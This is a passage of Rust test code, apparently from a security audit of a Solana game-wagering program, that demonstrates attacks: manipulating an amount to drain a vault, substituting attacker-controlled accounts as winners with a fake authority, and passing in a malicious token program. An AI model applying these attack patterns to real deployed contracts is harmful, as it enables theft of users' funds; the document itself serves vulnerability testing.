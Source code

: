 ```rust

        // This should fail but might succeed with manipulated amount
        let result = join_user_handler(ctx, "session_123".to_string(), 0);

        // If successful, vault is drained beyond its balance
        if result.is_ok() {
            // Vault balance goes negative or causes overflow
            // User deposited 1000 but withdrew u64::MAX
        }
    }

    #[test]
    fn test_recipient_substitution() {
        let game_session = create_completed_game_session(10000); // 10k in vault
        let legitimate_winners = create_legitimate_winner_accounts();
        let attacker_accounts = create_attacker_controlled_accounts();

        // Distribute winnings with substituted accounts
        let ctx = Context::new(
            &program_id,
            &mut DistributeWinnings {
                game_session,
                game_server: fake_authority(),
                vault: game_vault(),
                // ❌ Substitute attacker accounts as winners
                winner1: attacker_accounts[0],
                winner2: attacker_accounts[1],
                winner3: attacker_accounts[2],
                winner4: attacker_accounts[3],
                winner5: attacker_accounts[4],
                token_program: token_program(),
            },
            &[]
        );

        // Winnings distributed to attacker accounts
        let result = distribute_winnings_handler(ctx, "session_123".to_string(), 0);

        // All 10k tokens go to attacker instead of legitimate winners
        assert!(result.is_ok());
    }

    #[test]
    fn test_malicious_token_program() {
        let mut game_session = create_test_game_session(1000);

        // Attacker provides malicious token program
        let malicious_token_program = create_malicious_token_program();

        let ctx = Context::new(
            &program_id,
            &mut JoinUser {
                game_session,
                user: legitimate_user(),
                user_token_account: user_account(),
                vault: game_vault(),
                token_program: malicious_token_program, // ❌ Malicious program
                system_program: system_program(),
            },
            &[]
        );

        // Malicious token program could:
```